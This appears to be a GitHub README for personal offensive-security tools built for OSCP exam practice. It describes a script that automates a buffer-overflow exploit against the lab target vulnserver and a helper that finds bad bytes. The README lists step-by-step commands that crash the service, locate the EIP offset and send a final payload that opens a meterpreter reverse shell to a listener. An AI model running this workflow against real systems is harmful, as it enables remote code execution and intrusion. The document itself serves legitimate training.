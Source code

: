 # OffensiveTools
Some offensive tools that I am playing around with

----- ExploitShadow.py -----

I was trying to save some time on my OSCP exam and decided to build most of the exploit dev stages into one single python script where you can choose the mode based on where you are in the process. The only other thing you might need to configure that was not in the instructions is the way the "maliciousbuffer" variables get crafted within each mode, based on the application you're attacking; I'll leave that for you to decide, because it's ridiculously easy :)

The idea is you should have your msfconsole up and exploit/multi/handler set to use whatever payload you configured in ExploitShadow, then to get your shell you will use mode 4 like this:

./exploitshadow.py 4 2006 0x11223344 10.0.0.1 443 10.0.0.10 9999

In the above example, the argument "4" is the mode I am using to send the final payload to get a meterpreter session. I initially crashed the program with mode 1, then found that 2006 is the number of bytes offset to the EIP overwrite (found via modes 2 and 5), then checked for bad characters with mode 3 (00, 0a, 0d are there by default), then send the final payload with mode 4. The 0x11223344 is the theoretical memory location of a "jmp esp" command, which would hit the second nopsled directly after the EIP overwrite and continue onto the shellcode. The 10.0.0.1 and 443 are the LHOST/LPORT information fed into msfvenom. The 10.0.0.10 and 9999 are the IP address of the remote server and port we are attacking.

Honestly, the cherry on top in this is the fact that it gives you a date/time stamp of when the payload is sent at the very end, because we are pentesters and the report is what matters to the client, right???

The complete process for attacking vulnserver with this tool looked more like this:

# I sent a buffer of "TRUN ." + 3000 A's, resulting in a crash...
./exploitshadow.py 1 3000 10.0.0.13 9999
# Since that crashed it, I had the tool generate a pattern of 3000 characters and sent that next...
./exploitshadow.py 2 3000 10.0.0.13 9999
# At this point, the EIP register had the hex values 396F4338 inside it, so now I just need to find that offset next...
./exploitshadow.py 5 3000 396F4338
# Now I know that the offset is 2006, because that's what mode 5 gives me as output, so now I sent a buffer with all byte values 0-255...
./exploitshadow.py 3 2006 10.0.0.13 9999
# Keep doing that and using badbytecheck.py to eliminate bad bytes/chars. When you have them all eliminated, and you find a proper jump address, send payload...
./exploitshadow.py 4 2006 0x11223344 10.0.0.1 443 10.0.0.13 9999

----- BadByteCheck.py -----

Furthering the process of automating exploit development, I realize that you can probably do the same thing with tools such as Mona.py, but I enjoy writing my own tools and this is one that I find less annoying to deploy. Once I've sent a buffer with all byte values 0-255, I dump the memory where those values begin from the debugger, and then run this tool against the dump file. Any byte values that I already know are most likely bad are pre-configured within the tool, and it's easy to add more. It skips the "bad" bytes in order when it's checking, and looks for any byte mismatches between the internally generated "allbytes" (0-255) range and the values that were actually dumped from the debugger, reporting any mismatches that can be verified with hexdump. Enjoy!
